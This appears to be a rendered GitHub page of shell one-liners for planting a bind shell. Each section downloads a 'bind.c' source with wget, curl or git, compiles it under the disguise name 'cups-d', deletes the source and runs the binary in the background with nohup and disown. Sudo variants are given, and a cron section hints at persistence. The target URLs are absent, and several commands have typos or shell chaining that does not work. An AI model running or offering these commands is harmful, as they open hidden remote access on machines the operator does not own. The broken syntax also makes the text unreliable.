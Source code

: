 #One-liners:
##BIND / WGET / GCC
###SETUP(as root):
```console
apt-get install --yes wget gcc binutils || yum -y install wget gcc binutils || zypper -l --no-confirm install wget gcc binutils || pacman --noconfirm -Sy wget gcc binutils
```
###SETUP(via sudo):
```console
sudo apt-get install --yes wget gcc binutils || sudo yum -y install wget gcc bitutils || sudo zypper -l --no-confirm install wget gcc binutils || sudo pacman --noconfirm -Sy wget gcc binutils
```
###RUN(current user):
```console
wget -O bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
###RUN(via sudo):
```console
wget -O bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

##BIND / Curl / GCC
###SETUP(as root):
```console
apt-get install --yes curl gcc binutils || yum -y install curl gcc binutils || zypper -l --no-confirm install curl gcc binutils || pacman --noconfirm -Sy curl gcc binutils
```
###SETUP(via sudo):
```console
sudo apt-get install --yes curl gcc binutils || sudo yum -y install curl gcc binutils || sudo zypper -l --no-confirm install curl gcc binutils || sudo pacman --noconfirm -Sy curl gcc binutils
```
###RUN(current user):
```console
curl -o bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
###RUN(via sudo):
```console
curl -o bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```
##BIND / Git / GCC
###SETUP(as root):
```console
apt-get install –yes git gcc binutils || yum install git gcc binutils || zypper -l --no-confirm install git gcc binutils || pacman --noconfirm -Sy git gcc binutils
```
###SETUP(via sudo):
```console
sudo apt-get install –yes git gcc binutils || sudo yum install git gcc binutils || sudo zypper -l --no-confirm install git gcc binutils || sudo pacman --noconfirm -Sy git gcc binutils
```
###RUN(current user):
```console
git clone URL && cp ./folder/bind.c ./bind.c || rm -rf ./folder 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
###RUN(via sudo):
```console
git clone URL && cp ./folder/bind.c ./bind.c || rm -rf ./folder 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

##BIND-CRON / WGet / GCC
###SETUP(as root):
```console
apt-get install –yes wget gcc binutils cron
```
###SETUP(via sudo):
```console
Sudo apt-get install –yes wget gcc binutils cron
```
